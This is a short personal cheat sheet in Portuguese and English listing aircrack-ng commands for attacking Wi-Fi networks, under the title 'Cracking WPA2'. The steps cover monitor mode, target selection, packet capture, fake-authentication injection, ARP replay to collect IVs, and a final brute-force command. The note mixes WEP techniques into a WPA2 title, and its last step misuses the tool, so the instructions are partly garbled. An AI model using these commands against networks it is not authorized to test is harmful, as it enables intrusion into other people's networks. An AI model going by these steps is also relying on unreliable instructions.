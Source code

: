 # Cracking WPA2

This is a simple file for remind me some wpa2 cracking instructions.

### Ligar monitoramento
	sudo airmon-ng start <interface>

### Selecionar um alvo
	sudo airodump-ng <monitor>

### Pegar pacotes
	sudo airodump-ng <monitor> -c <channel> --bssid <bssid> -w <filename>

### Injetar mac
	aireplay-ng -1 10 -a <bssid-ap> <monitor>

Lembre de pegar o mac injetado

### Replicar requests de ARP para pegar mais IVs
    aireplay-ng -3 -b <ap bssid> -h <nssid injetado> <monitor>

### Bruteforce no .cap
    aireplay-ng -a 1 -b <ap bssid> <.cap>
